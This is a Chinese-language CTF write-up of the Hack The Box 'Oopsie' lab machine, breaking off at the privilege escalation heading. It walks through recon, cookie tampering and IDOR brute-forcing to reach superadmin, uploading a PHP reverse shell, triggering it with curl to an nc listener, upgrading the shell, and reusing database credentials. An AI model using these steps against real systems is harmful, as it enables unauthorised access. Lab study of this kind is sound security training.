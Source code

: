 # Oopsie

> 开始简单记思路，以及工具、命令的使用

## 渗透流程

### 信息搜集

- nmap扫描，得知目标Linux主机开放了ssh和http
- 访问web页面，开扫描器，得到`http://10.10.10.28/cdn-cgi/login/`这样一个看起来就有问题的路径

### 越权

- （巨坑，这步属实阴间）登入login页面，根据前一关得到的密码，在这里尝试，发现居然可以进去（彻底裂开）
- 进入后台界面，发现有个上传文件的功能，但是仅允许superadmin身份，而目前登入的是admin身份
- 研究cookie，发现身份的校验是由角色名和用户编号确定的，需要越权到superadmin，但是还不知道密码
- 在后台的另一个账号信息展示界面，根据请求参数里的`id`，页面会返回不同的用户信息，这个参数的传递和处理不受cookie内容的影响，因此可以从这里做文章
- 使用bp爆破id参数，观察返回长度来分辨不同的账户，最终确定superadmin的用户编号，利用编号修改cookie，发现已经可以上传文件

### 获取并连接webshell（建立落脚点 foothold）

- 成功登入后台，使用kali默认自带的php webshell，位置在`/usr/share/webshells/php/php-reverse-shell.php`，修改本机ip和监听端口后，将shell上传到服务器
- 并未返回上传路径，需要自行扫描上传文件路径，使用[开源工具](https://github.com/maurosoria/dirsearch)进行敏感目录搜索，最终定位到`http://10.10.10.28/uploads/`
- 使用`nc -nvlp 1234`监听1234端口，使用`curl http://10.10.10.28/uploads/php-reverse-shell.php`触发反弹shell，成功连接。

> 下面这几步操作具体含义不是很理解，作为一个坑留到这，但不影响渗透过程

- 升级shell

```sh
# script记录，并把记录丢弃
SHELL=/bin/bash script -q /dev/null
Ctrl-Z
stty raw -echo
fg
reset
xterm
```

升级后，可以在shell下进行tab补全、ctrl+c这类操作

### 内网漫游（lateral movement）

- 在`/var/www/html/cdn-cgi/login`发现`db.php`，从中得到用户`robert`的口令，使用su切换，获取`/home/robert/user.txt`内的user flag
- 此时下一个目标是提权并拿到root flag

### 提权（Privilege Escalation）
